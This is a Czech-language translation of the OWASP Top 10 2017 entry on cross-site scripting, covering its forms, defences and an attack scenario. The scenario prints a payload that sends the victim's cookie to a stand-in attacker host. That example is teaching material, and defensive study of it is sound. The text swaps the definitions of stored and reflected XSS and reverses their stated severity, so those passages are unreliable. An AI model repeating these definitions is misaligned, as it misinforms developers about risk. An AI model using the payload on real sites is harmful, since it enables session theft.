 # A7:2017 Cross-Site Scripting (XSS)

| Původci hrozby/Vektor útoku | Bezpečnostní slabina           | Dopady               |
| -- | -- | -- |
| Aplikačně specifické : Zneužitelnost 3 | Rozšíření 3 : Zjistitelnost 3 | Technické 2 : Obchodní |
| Automatizované nástroje mohou detekovat a využívat všechny tři formy XSS a existují i volně dostupné aplikační rámce. | XSS je druhým nejrozšířenějším problémem v OWASP Top 10 a nachází se v přibližně dvou třetinách všech aplikací. Automatizované nástroje mohou některé problémy XSS automaticky najít, zejména ve vyspělých technologiích, jako jsou PHP, J2EE/JSP a ASP.NET. | Dopad stored XSS a DOM XSS útoku je mírný. Pro reflected XSS je dopad vážný kvůli vzdálenému spuštění kódu v prohlížeči oběti, kdy může nastat krádež pověření, relace nebo doručení malwaru oběti. |

## Je aplikace zranitelná?

Existují tři formy XSS, obvykle zaměřené na prohlížeče uživatelů:

* **Stored XSS**: Aplikace nebo rozhraní API obsahuje jako součást výstupu HTML neověřený a neescapovaný vstup uživatele. Úspěšný útok může útočníkovi umožnit spustit libovolný HTML a JavaScript v prohlížeči oběti. Uživatel bude obvykle muset komunikovat s nějakým nebezpečným odkazem, který ukazuje na stránku ovládanou útočníkem, jako jsou škodlivé watering hole stránky, reklamy apod.
* **Reflected XSS**: Aplikace nebo API ukládá nesanitovaný vstup uživatele, který si později prohlédne jiný uživatel nebo administrátor. Trvalé XSS je často považováno za vysoké nebo kritické riziko.
* **DOM XSS**: JavaScript aplikační rámce, single-page aplikace, a API rozhraní, které dynamicky zahrnují na stránku data kontrolovatelná útočníkem, jsou zranitelné vůči DOM XSS. V ideálním případě by aplikace neměla posílat data řízená útočníkem na nespolehlivá rozhraní API JavaScriptu.

Typické útoky XSS zahrnují krádeže relací, převzetí účtu, MFA bypass, nahrazení nebo znehodnocení DOM (například přihlašovací panely trojských koní), útoky proti prohlížeči uživatele, například stahování škodlivého softwaru, protokolování klíčů a další útoky na straně klienta.

## Jak se mohu bránit?

Prevence XSS vyžaduje oddělení nedůvěryhodných dat od aktivního obsahu prohlížeče. Toho lze dosáhnout:

* Používáním aplikačních rámců, které automaticky escapují XSS, například nejnovější Ruby on Rails, React JS. Nastudujte si jednotlivá omezení XSS ochrany u každého rámce a případy, které nejsou ošetřeny, adekvátně vyřešte.
* Důkladné escapování všech nedůvěryhodných dat založených na kontextu HTML (body, attribute, JavaScript, CSS, nebo URL) vyřeší reflected a stored XSS chyby. [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) poskytuje podrobnosti o požadovaných technikách úniku dat.
* Použití kontextového kódování při úpravách dokumentu prohlížeče na straně klienta se jeví jako obrana proti DOM XSS. Pokud tomu nelze zabránit, podobné kontextové techniky escapování lze použít na API prohlížeče, jak je popsáno v OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Povolení [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) jako hloubkové obrany zmírňující kontrolu proti XSS. Je účinná, pokud neexistují žádné další chyby zabezpečení, které by umožňovaly umisťování škodlivého kódu prostřednictvím lokálních souborů (např. přepisy procházení cest nebo zranitelné knihovny z povolených sítí pro doručování obsahu).

## Příklady útočných scénářů

**Scénář #1**: Při konstrukci následujícího kousku HTML používá aplikace nedůvěryhodná data bez validace či escapování:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Útočník změní parametr ‘CC’ ve svém prohlížeči na:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Tento útok způsobí odeslání ID relace oběti na webové stránky útočníka, což mu umožní unést aktuální relaci oběti.

**Poznámka**: Útočníci mohou pomocí XSS zdolat jakoukoli automatizovanou obranu Cross-Site Request Forgery (CSRF), kterou aplikace může používat.


## Odkazy

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externí

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
